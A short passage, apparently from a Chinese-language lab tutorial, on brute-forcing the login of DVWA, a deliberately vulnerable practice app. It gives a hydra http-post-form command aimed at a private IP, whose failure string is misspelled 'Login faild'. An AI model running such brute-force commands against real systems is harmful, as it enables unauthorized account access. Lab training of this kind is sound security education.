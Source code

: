 ![](./pictures/dvwa_login_burp.png)

获取登录失败信息*Login failed*
![](./pictures/dvwa_login_failed.png)

2. 终端运行

   ```bash
   hydra -L user.txt -e ns 192.168.2.167 http-post-form "/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:Login faild"
   ```
